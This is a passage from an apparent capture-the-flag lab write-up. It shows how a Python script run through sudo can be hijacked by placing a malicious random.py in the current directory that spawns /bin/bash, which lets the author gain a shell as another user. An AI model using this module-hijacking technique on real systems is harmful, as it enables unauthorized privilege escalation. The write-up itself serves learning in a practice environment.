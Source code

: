 for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

We can see we're importing "random". Lets take a look at the Python3 path:

alice@wonderland:~$ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
>>> 

We can see the first path is '' (empty string) which directs Python to search modules in the current directory first.

https://stackoverflow.com/questions/49559003/why-is-the-first-element-in-pythons-sys-path-an-empty-string

https://docs.python.org/3.6/library/sys.html

Therefore we can create a random.py script that executes a shell when run in the walrus_and_the_carpenter.py. It doesn't need to have a method, it can just:

import os

os.system("/bin/bash")

because it runs the modules when you import them.

So we can now run:

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

![](images/2020-08-24-23-38-20.png)

and we are now running as rabbit!

![](images/2020-08-24-23-39-37.png)
